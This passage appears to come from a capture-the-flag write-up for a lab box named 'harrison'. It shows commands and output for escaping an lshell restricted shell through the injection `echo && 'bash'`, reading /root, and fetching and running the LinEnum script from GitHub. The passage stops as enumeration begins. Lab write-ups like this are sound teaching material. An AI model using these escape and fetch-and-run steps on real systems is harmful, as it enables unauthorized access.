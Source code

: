 ```
harrison:~$
```
Boom, we got a user shell!

#### Break out of a restricted shell:

Looks like the shell we have is pretty locked down:

```
harrison:~$ ls
flag.txt silly_cats
harrison:~$ cd /
*** forbidden path: /
harrison:~$ sudo -l
*** forbidden sudo command: sudo -l
harrison:~$ ?
cd clear echo exit help history ll lpath ls lsudo
```

This is our toolkit.  Not much to work with.  In order to break out, we'll need to figure out which restricted shell we're in.

```
harrison:~$ echo $SHELL
*** forbidden path: /usr/bin/lshell
```
OK, so it's something called [lshell](https://github.com/ghantoos/lshell).  To escape the shell, I did some searching, and found a bug on the lshell bugtracker that we can use to get into a real shell:
```
harrison:~$ echo && 'bash'
harrison@harrison:~$
```
#### Enumerate the Host:

Now that we have a real shell, let's do some manual host enumeration. Just for fun, we check /root, and find that we can read the files in it!
```
harrison@harrison:~$ ls /root
flag.txt
harrison@harrison:~$ cat /root/flag.txt
Nope. No flags here. Where do you think you are?
```
Well, hmm.  Looks like the flag isn't here.  But the name of the game is to read the root flag, right?  Let's keep looking.  We can poke at the host by hand, but I like using this LinEnum script:

```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh && chmod +x LinEnum.sh && ./LinEnum.sh
```
```
harrison@harrison:~$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
--2019-05-25 00:35:05-- https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.40.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.40.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 45639 (45K) [text/plain]
Saving to: 'LinEnum.sh'

LinEnum.sh 100%[========================================>] 44.57K --.-KB/s in 0.06s

2019-05-25 00:35:06 (740 KB/s) - 'LinEnum.sh' saved [45639/45639]

harrison@harrison:~$ chmod +x LinEnum.sh
harrison@harrison:~$ ./LinEnum.sh
```